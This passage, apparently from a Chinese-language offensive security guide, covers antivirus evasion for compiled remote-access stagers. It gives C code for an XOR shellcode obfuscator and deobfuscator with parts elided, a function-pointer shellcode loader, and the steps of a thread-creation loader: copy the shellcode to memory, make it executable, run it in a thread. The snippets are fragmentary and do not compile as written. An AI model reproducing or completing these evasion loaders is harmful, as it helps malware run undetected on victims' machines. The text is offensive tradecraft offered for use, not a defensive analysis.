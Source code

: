 

### 1 文件免杀

#### 1.1 shellcode混淆器

shellcode混淆器用于“源码编译类的小远控”场景下中掩盖stager内shellcode的静态特征。

shellcode混淆器的开发成本非常低，可以采用自定义的编码算法对原有shellcode进行混淆，进而掩盖原生shellcode内的静态特征。

- 下面给出一个简单的异或混淆器demo。

```c
#混淆器
void x(unsigned char* raw_buf, unsigned int size) {
    for (int i = 0; i < (size - 1); i++) {
        ......
        raw_buf[i] = raw_buf[i] ^ raw_buf[j] + (unsigned char)size;
    }
}

#解混淆器
void y(unsigned char* raw_buf, unsigned int size) {
    for (int i = size - 2; i >= 0; i--) {
        ......
        raw_buf[i] = raw_buf[i] ^ raw_buf[j] + (unsigned char)size;
    }
}
```

#### 1.2 加载器

“源码编译类的小远控”场景下加载器的实现方式非常多，目前收集了一些C语言下的常见加载器。可以简单将他们分成以下3类：

##### 1.2.1 函数指针加载器

###### # 函数指针型加载器

下面是一个最简单的C语言函数指针型加载器。

```c
void func_p01nt3r_1() {
    void (*func)();
    func = (void (*)()) (void*)raw_buf;
    (void)(*func)();
}
```



##### 1.2.2 线程创建类加载器

此类加载器基本遵循以下流程：

**step 1.**shellcode复制到申请的内存页上。

**step 2.**设置内存页的权限位上加上可执行权限。

**step 3 .**使用线程创建类函数直接执行该内存块上的内容。
